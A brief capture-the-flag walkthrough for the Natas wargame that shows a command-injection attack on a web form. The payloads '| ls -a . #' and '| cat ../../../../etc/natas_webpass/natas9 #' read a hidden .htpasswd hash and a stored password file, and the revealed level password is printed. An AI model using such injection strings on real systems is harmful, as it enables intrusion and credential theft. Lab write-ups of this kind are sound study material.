 # natas9

The source code reveals that it's running a shell script, which means that I can use UNIX commands. Using 
```sh
| ls -a . #
```

revealed that there's a filed called `.htpasswd`, which I then modified it to `cat` out the content of the file, which had this.

> $1$p1kwO0uc$UgW30vjmwt4x31BP1pWsV

... but it is not the password.

So after struggling for way too long, someone gave me a hint. "Look at the front page of Natas." Which tells me that the password is stored in a specific location, which then makes this incredibly easy.

```sh
| cat ../../../../etc/natas_webpass/natas9 #
```

> W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl